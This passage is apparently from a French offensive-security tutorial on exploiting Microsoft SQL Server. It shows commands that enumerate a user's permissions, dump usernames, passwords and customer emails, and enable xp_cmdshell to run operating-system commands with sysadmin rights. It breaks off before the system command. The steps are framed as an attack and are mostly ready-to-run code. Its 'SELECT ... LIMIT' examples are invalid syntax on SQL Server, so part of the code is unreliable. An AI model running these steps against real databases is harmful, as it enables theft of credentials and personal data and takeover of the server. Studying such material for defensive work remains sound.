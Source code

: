 ***

**2.5 Vérifier les Privilèges des Utilisateurs**

Pour voir les permissions d’un utilisateur spécifique :

```sql
EXEC sp_helprotect NULL, '<username>';
```

**Exemple :**

```sql
EXEC sp_helprotect NULL, 'admin';
```

***

### **🛠️ Étape 3 : Exploitation et Recherche de Données Sensibles**

**3.1 Lire les Données d'une Table**

Pour afficher les données contenues dans une table, utilisez :

```sql
SELECT * FROM <table_name> LIMIT <n>;
```

**Exemple :**

```sql
SELECT * FROM users LIMIT 10;
```

***

**3.2 Rechercher des Données Critiques**

*   **Identifiants ou mots de passe :**

    ```sql
    SELECT username, password FROM users;
    ```
*   **Emails :**

    ```sql
    SELECT email FROM customers;
    ```

***

**3.3 Exécution de Commandes Système**

Si vous disposez des privilèges `sysadmin`, activez le mode **xp\_cmdshell** pour exécuter des commandes système :

1.  Activer `xp_cmdshell` :

    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    ```
2.  Exécuter une commande système :
